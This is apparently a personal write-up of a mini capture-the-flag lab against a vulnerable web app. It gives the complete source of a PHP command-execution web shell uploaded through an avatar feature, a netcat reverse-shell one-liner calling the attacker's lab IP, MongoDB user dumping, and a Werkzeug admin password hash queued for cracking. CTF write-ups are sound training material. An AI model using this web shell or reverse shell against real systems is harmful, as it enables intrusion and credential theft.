---
---

# IML - Mini CTF: Vulnerable Web App – Ep.1

- On the main page, we casn sign up - but the Registration is giving a "Username too long!" error
Even if we give one letter




- In the brief it says that the app is still in development:



- Open Burp and break the app (took username param out):



- We can see the format of the username here - **admin@mywebsite.com**

- So we can create an account using:
name@website.com - It needs the @ and the .com

Use the same name for the email

And a long password

- Login



- Do a directory scan:
dirb <http://10.102.88.96> /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -c "session=eyJlbWFpbCI6ImFkbWluMkBteXdlYnNpdGUuY29tIn0.ZkxlMA.8rXIHijh614ybDQnm6DKb5ABNO8"




- We can see an uploads folder

- If we look at the Change Avatar feature - we can upload a file:



- On revshells find the php cmd command and create a **script.php** file:

```html
<html>
<body>
  <form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
    <input type="TEXT" name="cmd" id="cmd" size="80">
    <input type="SUBMIT" value="Execute">
  </form>
  <pre>
<?php
if (isset($_GET['cmd'])) {
    system($_GET['cmd']);
}
?>
  </pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

```

- Upload that file

- Go to <http://10.102.88.96/static/uploads/script.php>



- We have RCE

- Set up listener
- Run a bash rev shell command
```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.102.74.132 8881 >/tmp/f
```






- Admin creds:



- MongoDB is running

```bash
mongo
show databases
use dev
show collections
db.user.find()
```



Python Werkzeug
corresponds to:
pbkdf2:sha256:\[ITERATIONS\]\$\[RAW SALT EVEN THOUGH IT LOOKS BASE64\]\$\[HEXDIGEST OF pbkdf2 sha256 hmac\]


- We can use the tool:
<https://github.com/AnataarXVI/Werkzeug-Cracker>

Use admin hash (from admin_details.txt):

pbkdf2:sha256:50000\$mqWZ9okN\$8840ee19b918c135fcf0f639a4c0efd0425fcee6462d1d59d40493e07ed9ab8b